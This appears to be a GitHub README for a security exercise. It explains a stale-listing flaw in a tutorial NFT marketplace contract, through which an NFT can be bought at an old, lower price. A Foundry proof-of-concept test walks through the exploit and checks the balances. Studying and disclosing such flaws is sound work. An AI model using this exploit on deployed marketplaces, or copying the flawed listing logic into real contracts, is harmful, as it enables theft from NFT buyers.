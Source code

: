 # NFT marketplace hack

Smart contract exploit on the most popular nft marketplace [tutorial](https://www.youtube.com/watch?v=GKJBEEXUha0&t)

## The Hack

An nft can be bought with the information of its previous listings by calling ```createMarketSale``` with older data and 

A hacker can buy any NFT listed with an older listing data by calling ```createMarketSale``` on a previous listing id.
For example, if an NFT is currently listed at 10 ether and it was listed at a 1 ether, a hacker can get buy it for 1 ether.

The 1 ether is transfered to the old lister instead of the current one.

    // Start seller has 1 NFT - 10 ether
    //       buyer has 10 ether
    //       hacker has 10 ether
    
    // Minter-Seller lists its nft for 1 ether
    vm.prank(seller);
    marketplace.createMarketItem{value:0 ether}(address(nft), 1, 1 ether);


    // buyer buys the nft for 1 ether & lists it for 10 ether
    
    vm.startPrank(buyer);
    marketplace.createMarketSale{value:1 ether}(address(nft), 1);
    nft.approve(address(marketplace), 1);
    marketplace.createMarketItem{value:0 ether}(address(nft), 1, 10 ether);
    vm.stopPrank();


    // hacker is able to buy the nft for 1 eth using the old listing data.
    // Buyer loses its nft
    
    vm.startPrank(hacker);
    marketplace.createMarketSale{value:1 ether}(address(nft), 1);
    
    assertEq(seller.balance, 12 ether);
    assertEq(buyer.balance, 9 ether);
    assertEq(hacker.balance, 9 ether);
    assertEq(nft.balanceOf(hacker), 1);

    // End (hacked) seller has 12 ether
    //              buyer has 9 ether
    //              hacker has 9 ether & 1 NFT


    // Expected    seller has 11 ether
    //              buyer has 19 ether
    //              NotHacker has 0 ether & 1 NFT

### Disclaimer
*The purpose of this repository is a simple security exercise & do not encourage to hack smart contracts in the real world.*
